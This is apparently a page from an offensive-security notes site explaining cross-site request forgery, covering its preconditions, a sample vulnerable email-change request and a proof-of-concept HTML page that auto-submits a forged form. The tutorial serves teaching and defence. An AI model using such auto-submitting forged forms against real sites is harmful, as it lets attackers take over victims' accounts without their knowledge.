

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/csrf/index.html · generator: mkdocs

---
title: "Cross-Site Request Forgery (CSRF)"
description: "What CSRF is, the three conditions it needs, how the attack is delivered, the SameSite cookie model, and how defences are bypassed — with lab walkthroughs."
tags:
  - Web
  - CSRF
  - SameSite
  - Client-side
---

# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery is a vulnerability that lets an attacker make a victim's browser send a request the victim never intended — a request the application then treats as a deliberate action by the logged-in user. Because the browser automatically attaches the victim's session cookie to any request aimed at the application, the server cannot tell the forged request apart from a genuine one.

The whole bug is a confusion of intent: the application assumes that a correctly authenticated request is also an *authorised, intended* request. CSRF breaks that assumption by borrowing the victim's ambient authority (their cookies) while the victim is doing something else entirely — viewing an attacker's page.

## The three conditions CSRF needs

A CSRF attack is only possible when all three of these hold for the target action:

1. **A relevant action.** There is something worth forging — changing an email address, changing a password, transferring funds, promoting an account. State-changing actions are the targets; read-only pages are not.
2. **Cookie-based session handling.** The application identifies the user *solely* from session cookies that the browser sends automatically. If the action also needs a value the attacker cannot know (a token, a re-typed password), the attack becomes much harder.
3. **No unpredictable request parameters.** Every parameter the request needs is known to, or guessable by, the attacker. A secret CSRF token is exactly the "unpredictable parameter" that normally blocks the attack.

!!! note "CSRF vs XSS"
    They are often confused. XSS runs *the attacker's script in the victim's browser*; CSRF makes the browser send *a request the attacker chose*, without running any script on the target origin. CSRF is strictly less powerful — it can only perform actions the victim's session is allowed to perform, and (without a second bug) cannot read the response.

## How the attack works

Suppose the email-change endpoint accepts a plain form POST:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=attacker@evil.net
```

The only thing proving identity is the `session` cookie, and the browser attaches it to **any** request to that host. So the attacker hosts a page that auto-submits the same form from a different origin:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

When a logged-in victim loads the page, their browser submits the form *with their cookie attached*, and the server changes their email.
